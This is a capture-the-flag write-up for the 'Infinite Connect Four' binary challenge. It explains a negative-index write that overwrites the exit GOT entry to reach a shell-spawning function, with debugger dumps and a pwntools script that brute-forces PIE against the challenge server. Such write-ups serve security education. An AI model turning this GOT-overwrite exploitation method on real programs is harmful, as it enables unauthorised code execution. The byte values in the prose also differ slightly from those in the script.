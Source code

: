 # Infinite Connect Four
## Finding the bug
In the source code there is a main function that operates the game and also an uncalled `win` function that will open us a shell. We also find that the `game` function that is called in main within which we find the bug: 
```c
int colint = col - '0';
if (board[7][colint] == player1symbol || board[7][colint] == player2symbol) {
	// we have to shift the entire column down
	int lastfree = 0;
	while (board[lastfree][colint] == player1symbol || board[lastfree][colint] == player2symbol) {
		lastfree--;
}
```
Here we see that there is no check to see whether `lastfree` is negative and everytime the highest position on the board is full it will "shift the entire column down"
Hence it is possible for us to make the `lastfree` negative and then overwrite the data before the `board` whenever it shifts it down

In Binary Ninja, we dump the elf file in and see what data is stored before the `board`: 
![](../Assets/Screenshot%202025-06-02%20at%201.26.42%20PM.png)

We can see that the Global Offset Table is right above the board. Overwriting a GOT entry will allow us to redirect the program to the `win` function. Here in this case, exit is the last function and the nearest function to the board so that is what we will overwrite. So whenever `exit` is called, it will actually run `win` instead. 

So the board is at offset 0x60a0 and the GOT is at 0x6060 so there is a difference in 0x40 bytes

## Checking for file protections
```
hnin@ubuntu:~$ checksec infinite_connect_four
[*] '/home/hnin/infinite_connect_four'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
Notice here there is PIE enabled (so the runtime addresses are all randomised) but RELRO is only partial relro so GOT can still be overwritten. 

## Finding the offsets 
Lets verify this in runtime in gdb-pwndbg. 
Run the program, set the breakpoint at main:
```
pwndbg> got
State of the GOT of /home/hnin/infinite_connect_four:
GOT protection: Partial RELRO | Found 10 GOT entries passing the filter
[0x55555555a018] putchar@GLIBC_2.2.5 -> 0x555555555030 ◂— endbr64 
[0x55555555a020] puts@GLIBC_2.2.5 -> 0x555555555040 ◂— endbr64 
[0x55555555a028] __stack_chk_fail@GLIBC_2.4 -> 0x555555555050 ◂— endbr64 
[0x55555555a030] setbuf@GLIBC_2.2.5 -> 0x555555555060 ◂— endbr64 
[0x55555555a038] system@GLIBC_2.2.5 -> 0x555555555070 ◂— endbr64 
[0x55555555a040] printf@GLIBC_2.2.5 -> 0x555555555080 ◂— endbr64 
[0x55555555a048] fgets@GLIBC_2.2.5 -> 0x555555555090 ◂— endbr64 
[0x55555555a050] getchar@GLIBC_2.2.5 -> 0x5555555550a0 ◂— endbr64 
[0x55555555a058] setvbuf@GLIBC_2.2.5 -> 0x5555555550b0 ◂— endbr64 
[0x55555555a060] exit@GLIBC_2.2.5 -> 0x5555555550c0 ◂— endbr64 


pwndbg> x/32x 0x55555555a060
0x55555555a060 <exit@got.plt>:	0x555550c0	0x00005555	0x00000000	0x00000000
0x55555555a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x55555555a080:	0x00000000	0x00000000	0x5555a088	0x00005555
0x55555555a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x55555555a0a0 <board>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0b0 <board+16>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0c0 <board+32>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0d0 <board+48>:	0x20202020	0x20202020	0x20202020	0x20202020
```

We know that the board is `8*8` given the source code 
```c
char board[8][8] = {
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20',
'\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20', '\x20'
};
```
But in each row of memory address here is it 16 bytes so each row in the memory here contains 2 rows of the game board. 
```
0x55555555a0a0 <board>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0b0 <board+16>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0c0 <board+32>:	0x20202020	0x20202020	0x20202020	0x20202020
0x55555555a0d0 <board+48>:	0x20202020	0x20202020	0x20202020	0x20202020
```
So from above, we prob need to overwrite 7 rows until we reach the entry for the exit

## Testing the hypothesis
Run the program again in pwndbg. 
Setting player 1 symbol as `A` and player 2 as `B` for simple identification. Keep pressing `0` for the column for both Player 1 and 2 for a total of 16 times (8 times for each player)

Now if we observe the memory region again
```
pwndbg> x/32x 0x55555555a060
0x55555555a060 <exit@got.plt>:	0x55555041	0x00005555	0x00000042	0x00000000
0x55555555a070:	0x00000041	0x00000000	0x00000042	0x00000000
0x55555555a080:	0x00000041	0x00000000	0x5555a042	0x00005555
0x55555555a090:	0x00000041	0x00000000	0x00000042	0x00000000
0x55555555a0a0 <board>:	0x20202041	0x20202020	0x20202042	0x20202020
0x55555555a0b0 <board+16>:	0x20202041	0x20202020	0x20202042	0x20202020
0x55555555a0c0 <board+32>:	0x20202041	0x20202020	0x20202042	0x20202020
0x55555555a0d0 <board+48>:	0x20202041	0x20202020	0x20202042	0x20202020
```
We know that the last byte of the GOT entry for exit is overwritten by 0x41 which is `A`

So how do we overwrite it properly for the program to redirect to win. Overwrite the first column results in overwriting the last 2 hex digit in the GOT entry. So we need to overwrite both the first and second column to overwrite the last 4 hex digit in the GOT entry. There is a 1/16 chance that this will happen.

Then by instead of `A` and `B` for the player symbol we set them as `\x1f` and `\c9`

## Wait, what about PIE & ASLR? 
Apparently we can just bruteforce this a few times as the first few hex digits will most likely be the same so we just need to bruteforce it until the fourth last nibble matches and then we'll be able to redirect to win. 

## python pwn script
We just keep running this script until there isn't an SIGSEGV error and it spawns the shell
``` python
from pwn import * 

#p = process("./infinite_connect_four")
p = remote('challs.nusgreyhats.org', 33102) 

def send(payload):
	p.sendlineafter(b'> ', payload)
	
# first send the symbols of the players
send(b'\xc9') 
send(b'\xbf') 

#setting this will make sure the last byte is overwritten with \xc9 and the seonc last byte is overwrrite with \xbf
send(b'0') 
send(b'1') 

for i in range(15): 
	send(b'0') 
for i in range(15): 
	send(b'1') 

#this will call the exit function but then it will actually execute win
send(b'A') 
p.interactive()
```